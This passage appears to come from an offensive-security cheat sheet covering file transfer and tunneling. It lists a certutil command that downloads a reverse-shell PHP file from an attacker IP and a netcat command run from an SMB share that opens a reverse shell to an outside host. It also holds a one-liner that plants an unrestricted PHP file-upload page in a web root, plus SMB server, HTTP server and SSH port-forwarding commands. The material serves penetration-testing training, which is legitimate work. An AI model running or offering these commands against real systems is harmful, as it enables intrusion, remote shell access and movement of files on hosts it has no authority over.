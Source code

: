 Certutils Command:

```powershell
certutil.exe -urlcache -split -f http://10.10.16.11/reverse-shell-1.php reverse-shell-1.php
```

SMB File Execute:

```powershell
cmd.exe /c //192.168.45.246/temp/nc.exe -e cmd.exe 192.168.45.246 80
```

File Upload One-liner:

```bash
# Create directory
mkdir "/var/www/html/uploads"

# Create a `upload.php` file
echo '<!DOCTYPE html> <html> <head> <title>Upload your files</title> </head> <body> <form enctype="multipart/form-data" action="upload.php" method="POST"> <p>Upload your file</p> <input type="file" name="uploaded_file"></input><br /> <input type="submit" value="Upload"></input> </form> </body> </html> <?PHP if(!empty($_FILES["uploaded_file"])) { $path = "/"; $path = $path . basename( $_FILES["uploaded_file"]["name"]); if(move_uploaded_file($_FILES["uploaded_file"]["tmp_name"], $path)) { echo "The file ".  basename( $_FILES["uploaded_file"]["name"]). " has been uploaded"; } else{ echo "There was an error uploading the file, please try again!"; } } ?>' > /var/www/html/upload.php
```

Linux Python HTTP Server:

```python
python3 -m http.server 80
```

Windows Simple HTTP Server:
* [Simpe-HTTP-Server](https://github.com/TheWaWaR/simple-http-server/releases/tag/v0.6.7)

```powershell
.\simple-http-server.exe
```

SMBServer:

```bash
# Start Server
impacket-smbserver smbfolder $(pwd) -smb2support -user offsec -password offsec

# Transfer files
copy "[FILE-NAME]" \\IP\\smbfolder
```

## Tunneling

### SSH

Local Port Forwarding:

```bash
ssh -N -L "0.0.0.0:[LOCAL-PORT]:[TARGET-IP]:[TARGET-PORT]" "[USERNAME]@[IP]"
```
